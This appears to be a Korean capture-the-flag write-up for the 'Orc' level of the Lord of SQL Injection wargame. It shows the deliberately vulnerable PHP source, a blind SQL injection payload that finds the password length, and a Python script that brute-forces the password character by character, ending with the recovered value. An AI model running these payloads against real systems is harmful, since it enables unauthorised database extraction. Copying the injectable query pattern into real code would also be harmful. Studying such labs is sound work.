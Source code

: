 # Lord of SQL Injection No.4 - Orc
## 문제 출제 의도
1. 기본적인 Blind SQL을 할 수 있는지 확인한다.
## 소스 코드 분석
+ 소스 코드  
Orc의 소스코드는 다음과 같다.
    ~~~
    <?php 
    include "./config.php"; 
    login_chk(); 
    dbconnect(); 
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
    $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
    echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if($result['id']) echo "<h2>Hello admin</h2>"; 
    $_GET[pw] = addslashes($_GET[pw]); 
    $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
    highlight_file(__FILE__); 
    ?>
    ~~~
+ 소스 코드 분석
    - 금지 문자, 문자열
        + GET 방식으로 입력 받은 pw값에 prob _ . () 중 하나라도 있다면 "No Hack ~_~"이 출력되고 문제 풀이에 실패한다.
    - addslashes 함수
        ~~~
        string addslashes ( string $str )
        ~~~
        *  특수문자로 부터 발생될 수 있는 에러를 피하기위해 특수문자 앞에 역슬래쉬를 붙여주는 역활을하는 함수.
        * 원래대로 돌려줄때는 백슬레쉬를 제거해주는 stripslashes() 함수를 쓴다.
    - 풀이 성공 조건
        * 데이터베이스에서 받은 pw값이 0이 아니라면 "Hello admin"이 출력된다.
        * 데이터베이스에서 받은 pw와 GET방식으로 전달받은 pw가 같아야 한다.

## 문제 해결
+ pw길이
    - 직접 패스워드를 알아야 함으로 우선 비밀번호가 몇 글자인지 알아야 한다.
    - 따라서 URL 뒤에 다음과 같은 문자열을 추가 하여 확인 가능하다.
    ~~~
    ?pw=' or id='admin' and length(pw)=8-- -
    ~~~
    - 이는 Hello admin을 출력하게 만들기 때문에 우리는 pw가 8자리인 것을 알 수 있다.
+ pw값
    - substr함수
        * substr은 다음과 같은 형식을 취한다.
        ~~~
        substr(대상문자열,시작index, 길이)
        ~~~
        * 문자열을 자르는 함수이다. 시작 인덱스에서 길이만큼 문자열을 자른다.
        * 이를 통해 문자열을 잘라 문자를 하나씩 알아낸다.

    - 위 방법과 유사하게 한글자씩 알아내는 것은 코드를 이용하여 풀면 편하다.  
    - 다음과 같은 파이썬 코드를 이용하면 pw값을 쉽게 알 수 있다.
    ~~~
    import urllib.request
    from urllib.parse import quote
    key = ""
    for i in range(1, 9):
        for j in range(48, 127):
            url = "http://los.eagle-jump.org/orc_47190a4d33f675a601f8def32df2583a.php?pw="
            data="' or id='admin' and substr(pw,1,{})='{}'#".format(str(i), key + chr(j)
            print(data)

            data = quote(data)
            re = urllib.request.Request(url + data)
            re.add_header("User-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.75 Safari/537.36") 
            re.add_header("Cookie", "PHPSESSID=4p56htpvcookallo00ondblnf6")

            res = urllib.request.urlopen(re)

            if str(res.read()).find("Hello admin") != -1:
                key += chr(j).lower()
                print(key)
                break
    print(key)
    ~~~
    - 위 코드를 실행하면 295d5844가 출력된다. 이를 pw값에 GET 방식으로 입력하면 해결된다.